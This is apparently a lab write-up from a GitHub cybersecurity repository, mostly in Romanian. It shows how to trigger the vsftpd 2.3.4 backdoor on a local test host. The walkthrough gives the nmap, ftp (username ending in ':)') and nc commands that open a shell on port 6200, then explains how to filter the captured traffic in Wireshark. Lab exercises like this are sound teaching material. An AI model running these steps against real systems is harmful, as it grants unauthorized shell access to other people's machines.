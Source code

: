 
### FTP Attack:

   - [About FTP](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_ftp.md)
   - version: *vsftpd 2.3.4*  
   ```In 2011, in the download archive from the FTP service official site was attached a backdoor virus that was able to execute a shell on port 6200. To run the virus, the username for connecting FTP service could be any input followed by a ":)"```  

   - How to hack:
      
         nmap -sSV 192.168.56.102 -p21,6200  
     

<div align="center">
	<br>
   <a href="https://github.com/Dani780-C/Cybersecurity/blob/main/attacks/header.svg">
	<img src="header.svg" width="800" height="400" alt="Image">
   </a>
   <br>
</div>


     Se poate observa ca portul 6200 inca nu este deschis.  
     Folosim comanda ftp pentru a ne conecta la serviciul FTP.  
     Dupa ce vom executa aceasta comanda, va trebui sa introducem datele de login (user si parola).  
     Pentru user vom folosi orice string urmat de ":)", iar parola poate fi nula sau orice string.  
     Despre vulnerabilitate: [vsftpd backdoored](https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html)
     
         ftp 192.168.56.102 21
     
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-2.png)
     
         nmap 192.168.56.102 -p6200
         
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-nmap-2.png)
     
     Se poate vedea dupa o inca scanare a portului 6200 ca acum este deschis, deci ne vom folosi de [netcat](https://github.com/Dani780-C/Cyber-security/blob/main/tools/netcat.md) pentru a ne conecta.
     
         nc -v 192.168.56.102 6200
             
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-done.png)
     
   - Analiza trafic:
      - [Captura traficului pentru serviciului FTP in timpul atacului](https://github.com/Dani780-C/Cyber-security/blob/main/captures/ftp-traffic.pcapng)
      - Pentru a filtra traficul din captura wireshark se poate folosi filtrul *tcp.stream eq 0* pentru a vedea doar pachetele dintre atacator si tinta din prima conexiune esuata
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-first-connection.png)
      - Pentru a filtra traficul din captura wireshark se poate folosi filtrul *tcp.stream eq 1* pentru a doua conexiune pe portul 6200 prin care s-a efectuat un reverse shell
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-second-conn-port-6200.png)
